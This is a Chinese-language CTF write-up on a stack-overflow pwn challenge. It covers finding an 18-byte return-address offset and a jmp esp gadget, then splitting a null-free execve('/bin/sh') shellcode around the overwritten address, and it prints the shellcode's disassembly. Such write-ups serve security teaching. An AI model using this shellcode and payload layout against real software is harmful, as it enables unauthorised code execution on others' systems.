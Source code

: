     注意了，read函数不会自动帮你设置字符串末尾的'\x00'字符，所以，你读了31个字节，就是31个字节，不会在读入30个字节后自动停止！！！

继续往下看

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/5.png)

好，找到漏洞点了，是栈溢出，根据先前看到的保护，考虑使用shellcode

### 3.查看溢出点

我们先试试要多少个字节才能覆盖ret的返回地址

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/6.png)


![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/7.png)

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/8.png)

好，现在知道是18个字节

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-16-hackbox-pwn-space/9.png)

在这个地方还看到了jmp esp

是用shellcode了

### 4.shellcode编写

这道题shellcode显然是有限制的，先是不能太长，其次是不能含有'\x00'字符（strcpy会在遇到'\x00'字节后提前终止并返回）

我们知道，最多可以输入31个字符，覆盖地址是18~22个字符的位置，前面剩下18个字符，后面剩下9个字符

显然直接靠9个字符是无法shellcode的（我见过的最短的shellcode也要17给字节）

我们需要把shellcode分半，一部分放到0~18的位置

剩下一部分放入22~31的位置

中间覆盖的值是 jmp esp的地址

所以payload的格式是

shellcode_one + p32(jmp_esp) + shellcode_two

为了在执行shellcode_two后跳入shellcode_one,我们在shellcode_two中，我们需要在shellcode_two中加入跳转到shellcode_one的部分


    0:   31 c9                   xor    ecx, ecx
    2:   31 d2                   xor    edx, edx
    4:   83 ec 16                sub    esp, 0x16  #自己添加的
    7:   ff e4                   jmp    esp         #自己添加的
    9:   6a 0b                   push   0xb
    b:   58                      pop    eax
    c:   51                      push   ecx
    d:   68 2f 2f 73 68          push   0x68732f2f
    12:   68 2f 62 69 6e          push   0x6e69622f
    17:   89 e3                   mov    ebx, esp
    19:   cd 80                   int    0x80
